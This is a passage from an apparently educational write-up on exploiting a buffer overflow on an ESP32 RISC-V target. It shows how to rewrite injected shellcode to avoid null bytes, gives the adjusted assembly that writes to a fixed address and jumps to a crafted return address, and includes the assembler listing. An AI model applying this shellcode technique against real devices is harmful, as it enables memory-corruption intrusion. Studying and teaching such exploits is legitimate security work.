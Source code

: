 build and test (or just compare to previous code).

![alt](assets/20250331155123.png)

´modifying the code to get past 0x00 problems:

- `li a4,1` command: should find an alternative way to put immediate value 1 to register 4. After some experimenting found compressed instruction set command `c.li a4,1` that does the same with 16-bit instruction with no 0x00's.
- `ret` command has similar solution `c.jr ra`
- `lui ra,0x4200b` loads given immediate value to most significant bits in ra register. To avoid the 0x00 in immediate value, the following arithmetic solution is found (as in C notation) ra=0; ra=ra+0x42;ra =ra<<24;temp=0xb788;temp=temp>>12;ra=ra+temp;

So the adjusted assembly code is

```
.global _start

  lui	 a5,0x4080d
  c.li a4,1
  sb	 a4,0x4e8(a5)
  sub  ra,ra,ra
  addi ra,ra,0x42
  slli ra,ra,24
  lui t3,0xb7880
  srli t3,t3,16
  add ra,ra,t3
  c.jr ra
```

Unfortunately riscv online compiler cpulator does not support short forms... so lets switch back to esp-idf.

Create a file named `test.S` and in your project, and open `ESP-IDF Terminal` into that folder:

```
PS C:\buffer_attack> riscv32-esp-elf-as.exe -march=rv32imc .\test.S -al
.\test.S: Assembler messages:
.\test.S: Warning: end of file not at end of a line; newline inserted
GAS LISTING .\test.S                    page 1


   1                    .global _start
   2                    _start:
   3
   3 0000 B7D78040              lui      a5,0x4080d
   4 0004 0547                  c.li a4,1
   5 0006 2384E74E              sb       a4,0x4e8(a5)
   6 000a B3801040              sub  ra,ra,ra
   7 000e 93802004              addi ra,ra,0x42
   8 0012 E200                  slli ra,ra,24
   9 0014 370E88B7              lui t3,0xb7880
  10 0018 135E0E01              srli t3,t3,16
  11 001c F290                  add ra,ra,t3
  12 001e 8280                  c.jr ra...
```
